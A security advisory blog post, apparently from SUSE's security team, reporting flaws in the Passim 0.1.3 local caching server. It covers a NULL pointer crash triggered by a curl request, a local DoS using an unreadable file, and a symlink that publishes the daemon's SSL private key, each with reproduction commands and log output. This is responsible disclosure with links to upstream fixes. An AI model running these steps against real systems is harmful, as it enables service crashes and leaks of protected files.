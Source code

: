 ```yaml
---
layout: post
author: <a href='mailto:matthias.gerstner@suse.de'>Matthias Gerstner</a>
title:  "Security Issues in Passim Local Caching Server"
date:   2023-10-27 15:25:00 +0100
tags:   local
excerpt: "This is a report about findings in the Passim local caching server. Passim is a relatively new project for a local caching server that helps
distributing publicly available files in local networks to save network bandwidth."
---
```


This is a report about findings in the [Passim local caching
server][passim-repo].

1) Introduction
===============

Passim is a relatively new project for a local caching server that helps
distributing publicly available files in local networks to save network
bandwidth. It is a dependency of new [fwupd][fwupd-repo] releases, which is
why it has come to our attention.

Passim consists of a daemon component running as a separate passim user
and group. The daemon offers a local D-Bus interface over which only the
root user may publish or unpublish files on the network. Non-root users
may only inspect the available items via D-Bus.

Furthermore the daemon announces all cached items via the Ahavi
discovery protocol. For retrieval of individual items a small libsoup
based HTTP server is integrated into the daemon, listening on port
25000.

A small command line programm `passim` allows to interact with the
daemon's D-Bus interface.

The findings in this report are based on the [upstream release tag
0.1.3][passim-release].

2) Findings
===========

2.1) Remote DoS Against `passimd` by Triggering NULL Pointer Dereference
------------------------------------------------------------------------

When accessing a URL different from the root "/" and without passing any
parameters "?" then a segmentation fault is the result in
[passim-server.c:751][null-pointer-crash-line] (null pointer dereference,
because there is no request).

Example:

    root# curl -v -k 'https://localhost:27500/myfile'
    root# journalctl -u passim.service | tail -n 5
    Oct 25 12:45:24 mybox passimd[5091]: accepting HTTP/1.1 GET /myfile  from ::1:39278 (loopback)
    Oct 25 12:45:24 mybox passimd[5091]: g_strsplit: assertion 'string != NULL' failed
    Oct 25 12:45:29 mybox systemd[1]: passim.service: Main process exited, code=dumped, status=11/SEGV
    Oct 25 12:45:29 mybox systemd[1]: passim.service: Failed with result 'core-dump'.

Upstream has library settings in effect to abort on failing assertions
instead of trying to continue, to prevent possible memory access errors
from becoming exploitable.

This issue is fixed via upstream [commit 1f7bcea][fix-null-pointer].

2.2) Serving Static Files from a Directory owned by Unprivileged Users
----------------------------------------------------------------------

Passim supports the configuration of static directories on the local
file system, whose content will be processed and published upon startup.

Consider a directory controlled by 'nobody':

    root# cat /etc/passim.d/nobody.conf
    [passim]
    Path=/var/lib/nobody/passim

There's two things that I found problematic in such a scenario.

### a) Placing Inaccessible Files in the Directory

    root# sudo -u nobody -g nobody /bin/bash
    nobody$ mkdir /var/lib/nobody/passim
    nobody$ touch /var/lib/nobody/passim/somefile
    nobody$ chmod 000 /var/lib/nobody/passim/somefile

This will prevent future starts of `passimd`:

    root# systemctl restart passim.service
    Job for passim.service failed because the control process exited with error code.
    See "systemctl status passim.service" and "journalctl -xeu passim.service" for details.
    root# journalctl -u passim.service | tail -n 6
    Oct 25 12:56:58 mybox passimd[5330]: scanning /var/lib/nobody/passim
    Oct 25 12:56:58 mybox passimd[5330]: failed to scan sysconfpkg directory: Error opening file /var/lib/nobody/passim/somefile: Permission denied
    Oct 25 12:56:58 mybox systemd[1]: passim.service: Main process exited, code=exited, status=1/FAILURE
    Oct 25 12:56:58 mybox systemd[1]: passim.service: Failed with result 'exit-code'.
    Oct 25 12:56:58 mybox systemd[1]: Failed to start Local Caching Server.

This opens a local DoS attack vector against passimd for the unprivileged user
that owns the directory. This is also valid for other situations like a FIFO
placed there, broken symlinks or symlinks to inaccessible locations as well as
race conditions (time of `readdir()` vs. time of `open()`).

This has at least partially been addressed by upstream [commit
f4c34bd3][fix-eperm].

### b) Placing Symlinks to Otherwise Inaccessible Data in the Directory

Although `passimd` runs with low privileges by default there are some
interesting files that a local attacker might want to get their hands
on. Since `passimd` follows symlinks in this directory one could try to
"publish" files from `/proc/<pidof passimd>` by placing symlinks. This is
somewhat difficult though, since a race condition has to be won (the PID
of a starting `passimd` needs to be known to place a proper symlink).
Also there are not that many interesting files in there I believe. Also e.g.
`/proc/<pid>/mem` cannot be shared this way, since it cannot be read
sequentially.

A much simpler attack is to publish the SSL private key of `passimd` though:

    root# sudo -u nobody -g nobody /bin/bash
    nobody$ mkdir /var/lib/nobody/passim
    nobody$ ln -s /var/lib/passim/secret.key /var/lib/nobody/passim/secret

    root# systemctl restart passim.service
    root# passim dump
    passimd is running
    1c69e7e4d7b7ed655eafa94942a5ef04f7c7688a0519be387133176154f58fe6 secret size:2.5 kB

    root# sha256sum /var/lib/passim/secret.key
    1c69e7e4d7b7ed655eafa94942a5ef04f7c7688a0519be387133176154f58fe6  /var/lib/passim/secret.key

From here on the local attacker can simply download the now shared
"secret key" from localhost.

It has to be noted that this SSL private key has no security purpose in
passimd but only serves to prevent network traffic security scanners
from raising alarm over unencrypted traffic.

Thus currently there is no known information leak using this attack that
has attacker value. It is still crossing of a security boundary and
could be problematic in the future.

Upstream [issue #26][issue-privkey] deals with this issue but is not yet
completely fixed, due to a remaining race condition.

Bugfix Release and Upstream Reporting
=====================================

I reported these issues to the upstream author on 2023-10-25. No
coordinated disclosure was desired so bugfixes have been and still are
developed publicly over the GitHub issue tracker.

There are some disagreements with upstream about whether these issues
are qualifying as security issues. I believe they are. Due to this no
CVEs have been assigned as of now.

Passim is packaged, to my knowledge, in Fedora Linux and Arch Linux
already. Otherwise it should not be widespread.

Upstream is working on a new release of Passim containing fixes for
these and some other non-security issues that I reported as well.

References
==========

- [Passim GitHub repository][passim-repo]
- [Fwupd GitHub repository][fwupd-repo]
- [Passim Release Tag 0.1.3][passim-release]
- [Passim NULL pointer dereference source code location][null-pointer-crash-line]
- [Passim NULL pointer dereference bugfix][fix-null-pointer]
- [Passim bugfix to be robust against EPERM errors][fix-eperm]
- [Passim issue report about the possibility to leak the SSL private key][issue-privkey]

[passim-repo]: https://github.com/hughsie/passim
[passim-release]: https://github.com/hughsie/passim/tree/0.1.3
[fwupd-repo]: https://github.com/fwupd/fwupd
[null-pointer-crash-line]: https://github.com/hughsie/passim/blob/0.1.3/src/passim-server.c#L751
[fix-null-pointer]: https://github.com/hughsie/passim/commit/1f7bceae08beb31d81719e7aa0cb3ff14aba6804
[fix-eperm]: https://github.com/hughsie/passim/commit/4cba26103daab69aedf584ae3a69ba48f4c34bd3
[issue-privkey]: https://github.com/hughsie/passim/issues/26
